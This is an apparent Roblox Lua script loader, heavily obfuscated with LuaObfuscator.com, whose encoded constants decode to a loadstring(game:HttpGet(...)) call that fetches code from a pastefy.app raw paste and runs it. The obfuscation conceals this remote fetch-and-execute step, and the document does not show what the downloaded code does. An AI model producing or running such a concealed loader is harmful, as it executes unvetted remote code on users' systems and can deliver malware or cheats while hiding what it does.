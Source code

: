 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v91=0;while true do if (v91==0) then v19=v0(v3(v30,1,1));return "";end end else local v92=v2(v0(v30,16));if v19 then local v116=0;local v117;while true do if (v116==1) then return v117;end if (v116==0) then v117=v5(v92,v19);v19=nil;v116=1;end end else return v92;end end end);local function v20(v31,v32,v33) if v33 then local v93=(0 -0) -0 ;local v94;while true do if (v93==(1637 -(1523 + 114))) then v94=(v31/((5 -(4 -1))^(v32-(1 -0))))%(2^(((v33-(1066 -(68 + 997))) -(v32-(2 -1))) + (620 -(555 + 64)))) ;return v94-(v94%1) ;end end else local v95=931 -(857 + 74) ;local v96;while true do if (v95==(117 -(32 + 85))) then v96=(570 -(367 + 201))^(v32-((1278 -(87 + 263)) -(214 + 713))) ;return (((v31%(v96 + v96))>=v96) and (1 + 0)) or ((180 -(67 + 113)) + 0) ;end end end end local function v21() local v34=(952 -(802 + 150)) + 0 ;local v35;while true do if (v34==(2 -1)) then return v35;end if (v34==(0 + 0)) then v35=v1(v16,v18,v18);v18=v18 + 1 ;v34=3 -2 ;end end end local function v22() local v36=0 -0 ;local v37;local v38;while true do if (v36==(2 -1)) then return (v38 * (464 -208)) + v37 ;end if (v36==((2692 -1505) -(1069 + 118))) then v37,v38=v1(v16,v18,v18 + 2 + 0 );v18=v18 + (999 -(915 + 82)) ;v36=1;end end end local function v23() local v39=0 -0 ;local v40;local v41;local v42;local v43;while true do if (v39==(0 + 0)) then v40,v41,v42,v43=v1(v16,v18,v18 + (4 -1) );v18=v18 + 4 ;v39=(3 -2) + (442 -(416 + 26)) ;end if (v39==1) then return (v43 * (16778007 -(368 + 423))) + (v42 * (205958 -140422)) + (v41 * (274 -(10 + 8))) + v40 ;end end end local function v24() local v44=v23();local v45=v23();local v46=3 -2 ;local v47=(v20(v45,1 + 0 ,35 -15 ) * ((440 -(145 + 293))^32)) + v44 ;local v48=v20(v45,451 -((77 -33) + 386) ,(2597 -(1020 + 60)) -(998 + 488) );local v49=((v20(v45,(1434 -(630 + 793)) + 21 )==(1 + 0)) and  -(773 -(201 + 571))) or (1139 -(116 + 1022)) ;if (v48==(0 -0)) then if (v47==((0 -0) + 0)) then return v49 * (0 -0) ;else v48=1;v46=0 -(0 -0) ;end elseif (v48==(2906 -(814 + 45))) then return ((v47==(0 -0)) and (v49 * ((1 + 0)/0))) or (v49 * NaN) ;end return v8(v49,v48-(362 + 661) ) * (v46 + (v47/(2^(937 -(261 + 624))))) ;end local function v25(v50) local v51;if  not v50 then local v97=0;while true do if (((1913 -(1789 + 124)) + 0)==v97) then v50=v23();if (v50==((766 -(745 + 21)) -0)) then return "";end break;end end end v51=v3(v16,v18,(v18 + v50) -(1748 -(760 + 987)) );v18=v18 + v50 ;local v52={};for v68=1, #v51 do v52[v68]=v2(v1(v3(v51,v68,v68)));end return v6(v52);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return function(v98,v99,v100,v101,v102,v103,v104,v105,v106) local v107=(function() return 0;end)();local v98=(function() return;end)();local v99=(function() return;end)();while true do if (v107==0) then local v122=(function() return 0 + 0 ;end)();while true do if ((574 -(507 + 67))==v122) then v98=(function() return 0;end)();v99=(function() return nil;end)();v122=(function() return 1;end)();end if (v122~=(1750 -(1013 + 736))) then else v107=(function() return 1 + 0 ;end)();break;end end end if (v107==(2 -1)) then local v123=(function() return 0;end)();while true do if (v123~=(0 -0)) then else while true do if (v98==0) then v99=(function() return v100();end)();if (v101(v99, #",", #"\\")~=(867 -(550 + 317))) then else local v173=(function() return 0 -0 ;end)();local v174=(function() return;end)();local v175=(function() return;end)();local v176=(function() return;end)();while true do if (v173==3) then if (v101(v175, #"xxx", #"nil")== #"}") then v176[ #"xnxx"]=(function() return v104[v176[ #".dev"]];end)();end v105[v106]=(function() return v176;end)();break;end if ((1 -0)==v173) then v176=(function() return {v102(),v102(),nil,nil};end)();if (v174==0) then local v182=(function() return 285 -(134 + 151) ;end)();local v183=(function() return;end)();while true do if (v182~=0) then else v183=(function() return 1665 -(970 + 695) ;end)();while true do if (v183==0) then v176[ #"-19"]=(function() return v102();end)();v176[ #"http"]=(function() return v102();end)();break;end end break;end end elseif (v174== #"[") then v176[ #"xnx"]=(function() return v103();end)();elseif (v174==2) then v176[ #"-19"]=(function() return v103() -((3 -1)^16) ;end)();elseif (v174~= #"xxx") then else local v190=(function() return 0;end)();local v191=(function() return;end)();while true do if ((1990 -(582 + 1408))==v190) then v191=(function() return 0;end)();while true do if (v191==(0 -0)) then v176[ #"gha"]=(function() return v103() -((2 -0)^(60 -44)) ;end)();v176[ #"http"]=(function() return v102();end)();break;end end break;end end end v173=(function() return 2;end)();end if (v173==(1826 -(1195 + 629))) then if (v101(v175, #"<", #":")== #"]") then v176[2]=(function() return v104[v176[2]];end)();end if (v101(v175,2,2)== #"[") then v176[ #"19("]=(function() return v104[v176[ #"19("]];end)();end v173=(function() return 3;end)();end if (0~=v173) then else v174=(function() return v101(v99,2 -0 , #"-19");end)();v175=(function() return v101(v99, #"asd1",6);end)();v173=(function() return 1;end)();end end end break;end end return v98,v99,v100,v101,v102,v103,v104,v105,v106;end end end end end;end)();local v54=(function() return function(v108,v109,v110) local v111=(function() return 241 -(187 + 54) ;end)();local v112=(function() return;end)();while true do if ((780 -(162 + 618))==v111) then v112=(function() return 0;end)();while true do if (v112~=0) then else local v127=(function() return 0 + 0 ;end)();while true do if (v127~=0) then else v108[v109-#" " ]=(function() return v110();end)();return v108,v109,v110;end end end end break;end end end;end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {};end)();local v58=(function() return {v55,v56,nil,v57};end)();local v59=(function() return v23();end)();local v60=(function() return {};end)();for v70= #"]",v59 do local v71=(function() return 0;end)();local v72=(function() return;end)();local v73=(function() return;end)();local v74=(function() return;end)();while true do if (v71==(1 + 0)) then v74=(function() return nil;end)();while true do if (v72==0) then local v124=(function() return 0 -0 ;end)();local v125=(function() return;end)();while true do if (v124==0) then v125=(function() return 0 -0 ;end)();while true do if ((0 + 0)==v125) then local v177=(function() return 1636 -(1373 + 263) ;end)();while true do if (v177==(1001 -(451 + 549))) then v125=(function() return 1;end)();break;end if (v177==(0 + 0)) then v73=(function() return v21();end)();v74=(function() return nil;end)();v177=(function() return 1 -0 ;end)();end end end if (v125==1) then v72=(function() return 1 -0 ;end)();break;end end break;end end end if (v72~=1) then else if (v73== #"~") then v74=(function() return v21()~=(1384 -(746 + 638)) ;end)();elseif (v73==(1 + 1)) then v74=(function() return v24();end)();elseif (v73~= #"asd") then else v74=(function() return v25();end)();end v60[v70]=(function() return v74;end)();break;end end break;end if (v71~=(0 -0)) then else v72=(function() return 0;end)();v73=(function() return nil;end)();v71=(function() return 342 -(218 + 123) ;end)();end end end v58[ #"19("]=(function() return v21();end)();for v75= #"/",v23() do FlatIdent_946F,Descriptor,v21,v20,v22,v23,v60,v55,v75=(function() return v53(FlatIdent_946F,Descriptor,v21,v20,v22,v23,v60,v55,v75);end)();end for v76= #"}",v23() do v56,v76,v28=(function() return v54(v56,v76,v28);end)();end return v58;end local function v29(v62,v63,v64) local v65=v62[1582 -(1535 + 46) ];local v66=v62[2];local v67=v62[3 + 0 ];return function(...) local v77=v65;local v78=v66;local v79=v67;local v80=v27;local v81=1 + 0 ;local v82= -((626 -(30 + 35)) -(306 + 254));local v83={};local v84={...};local v85=v12("#",...) -(1 + 0 + (1257 -(1043 + 214))) ;local v86={};local v87={};for v113=0 -0 ,v85 do if (v113>=v79) then v83[v113-v79 ]=v84[v113 + (1468 -(899 + 568)) ];else v87[v113]=v84[v113 + 1 ];end end local v88=(v85-v79) + 1 + 0 ;local v89;local v90;while true do v89=v77[v81];v90=v89[2 -(3 -2) ];if (v90<=(606 -(268 + 335))) then if ((1830<3669) and (v90<=(291 -(60 + 230)))) then if ((v90==(572 -(426 + 146))) or (1430>=3612)) then local v128;local v129,v130;local v131;local v132;v87[v89[1 + 1 ]]={};v81=v81 + (1457 -(282 + 1174)) ;v89=v77[v81];v87[v89[2]]=v64[v89[3]];v81=v81 + (812 -(569 + 242)) ;v89=v77[v81];v87[v89[5 -3 ]]=v64[v89[1 + 2 ]];v81=v81 + 1 ;v89=v77[v81];v132=v89[1026 -(706 + 318) ];v131=v87[v89[1254 -(721 + 530) ]];v87[v132 + 1 ]=v131;v87[v132]=v131[v89[(2487 -(323 + 889)) -((2543 -1598) + (906 -(361 + 219))) ]];v81=v81 + (2 -1) ;v89=v77[v81];v87[v89[2 + 0 ]]=v89[703 -((591 -(53 + 267)) + 429) ];v81=v81 + 1 + 0 ;v89=v77[v81];v132=v89[1502 -(1408 + 92) ];v129,v130=v80(v87[v132](v13(v87,v132 + 1 ,v89[1089 -(461 + 625) ])));v82=(v130 + v132) -(1289 -(993 + 295)) ;v128=0 + 0 ;for v161=v132,v82 do local v162=1171 -(418 + 753) ;while true do if ((v162==(0 + 0 + 0)) or (1804>=3275)) then v128=v128 + 1 ;v87[v161]=v129[v128];break;end end end v81=v81 + 1 ;v89=v77[v81];v132=v89[(414 -(15 + 398)) + 1 ];v87[v132]=v87[v132](v13(v87,v132 + 1 + 0 ,v82));v81=v81 + 1 + (982 -(18 + 964)) ;v89=v77[v81];v87[v89[531 -(406 + 123) ]]();v81=v81 + (1770 -((6583 -4834) + 20)) ;v89=v77[v81];do return;end else v87[v89[1 + 1 ]]=v64[v89[1325 -(1249 + 73) ]];end elseif (v90==(1 + 1)) then v87[v89[1147 -(466 + 679) ]]={};else local v151=0;local v152;local v153;local v154;local v155;while true do if (v151==(4 -2)) then for v171=v152,v82 do local v172=0;while true do if (v172==(0 -0)) then v155=v155 + (1901 -(106 + 1794)) ;v87[v171]=v153[v155];break;end end end break;end if (v151==(0 + 0 + 0)) then v152=v89[1 + 1 ];v153,v154=v80(v87[v152](v13(v87,v152 + (2 -1) ,v89[3])));v151=2 -1 ;end if ((v151==(115 -(4 + 110))) or (1417>3629)) then v82=(v154 + v152) -(585 -(57 + 527)) ;v155=1427 -(41 + 874 + 512) ;v151=2;end end end elseif ((2683>=2460) and (v90<=(108 -(17 + 86)))) then if (v90==(3 + 1)) then v87[v89[3 -1 ]]();else do return;end end elseif (v90<=((867 -(20 + 830)) -11)) then local v156=v89[2];local v157=v87[v89[3]];v87[v156 + 1 ]=v157;v87[v156]=v157[v89[170 -(122 + 44) ]];elseif (v90>(11 -4)) then v87[v89[2]]=v89[9 -6 ];else local v165=v89[2 + 0 ];v87[v165]=v87[v165](v13(v87,v165 + 1 + 0 ,v82));end v81=v81 + ((1 + 0) -0) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403203Q00682Q7470733A2Q2F706173746566792E612Q702F64363263514B7A4E2F72617700099Q003Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);